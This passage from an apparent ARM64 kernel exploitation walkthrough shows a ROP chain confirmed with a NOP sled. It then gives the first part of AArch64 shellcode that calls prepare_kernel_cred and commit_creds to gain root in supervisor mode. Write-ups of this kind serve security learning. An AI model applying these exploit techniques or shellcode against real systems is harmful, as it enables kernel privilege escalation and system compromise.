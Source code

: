 ![pc_eq_x21](pc_eq_x21.png)

We can see above that our `PC` value and `x21` value are the same, indicating that our ROP chain seems to have executed properly. We also get the following line from the end of the kernel panic:

![call_trace_x43](call_trace_x43.png)

This error message seems to indicate that our `0x43` are being interpreted as valid instructions, but it's still hard to tell. Maybe the error message is just a fluke? 

I changed the entire chain to be NOPs, except the last line, which was still our `x21_overflow` junk data.

```cpp
uint64_t nop = 0xd503201fd503201f;

// ... previous code ...
  uint64_t *chain = (uint64_t *)&buf[1024];  
  *chain++ = (uint64_t)blr_x21;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  

// ... continue chain

  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)x21_overflow;  
```

If the code on the stack was actually executing, it would go down the NOP sled before throwing the same error. Furthermore, our PC would now point to a different address than `x21`, since it successfully executed instructions.

![x21_neq_pc](x21_neq_pc.png)
![nop_code_trace](nop_code_trace.png)

I was honestly in disbelief that this worked. We now have a very simple gadget which reliably allows us to jump to our own shellcode, executing in supervisor mode (EL1). 

## Writing The Shellcode:
The obvious next step was to come up with our shellcode. In order to do that, we need to grab the addresses for both `commit_creds` and `prepare_kernel_cred`

![prepare_and_commit_addr](prepare_and_commit_addr.png)

After that, we can write the beginning of the shellcode:

```arch64
mov x0, xzr              // move 0x0 into x0 
mov x2,  #0x6368         // mov addr of prepare_kernel_cred into x2
movk x2, #0x000b, lsl #16  
movk x2, #0xffc0, lsl #32  
movk x2, #0xffff, lsl #48  
blr x2                   // branch to addr in x2
mov x4,  #0x5ffc         // mov addr of commit_creds into x4
movk x4, #0x000b, lsl #16  
movk x4, #0xffc0, lsl #32  
movk x4, #0xffff, lsl #48  
blr x4                   // branch to addr in x4

...

```
